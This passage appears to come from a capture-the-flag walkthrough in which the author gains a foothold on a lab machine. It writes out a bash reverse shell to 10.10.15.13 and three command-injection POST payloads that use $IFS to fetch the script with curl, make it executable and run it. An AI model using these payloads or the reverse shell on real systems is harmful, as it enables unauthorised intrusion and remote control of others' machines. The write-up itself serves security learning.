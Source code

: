  I found a username `shaun` using `tail -n2`.  Next, I tried to see if I could send my SSH key to `shaun`'s`authorized_keys` file but it didn't work.  After that I decided to try to get a reverse shell by sending a bash script and then executing it.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.15.13/8091 0>&1
```

my shell script which simply contained a bash reverse shell

```text
title=Passwd+Extract&content=http://10.10.15.13:8081/$(curl$IFS'http://10.10.15.13:8081/shell'$IFS'-o'$IFS'/dev/shm/shell')&submit=Post

title=Passwd+Extract&content=http://10.10.15.13:8081/$(chmod$IFS'+x'$IFS'/dev/shm/shell')&submit=Post

title=Passwd+Extract&content=http%3a//10.10.15.13%3a8081/$(bash$IFS'/dev/shm/shell')&submit=Post
```

The three commands I sent through burp traffic: 

![](../../.gitbook/assets/5-burp-shell.png)

sending the file using curl, 

![](../../.gitbook/assets/5-shell.png)
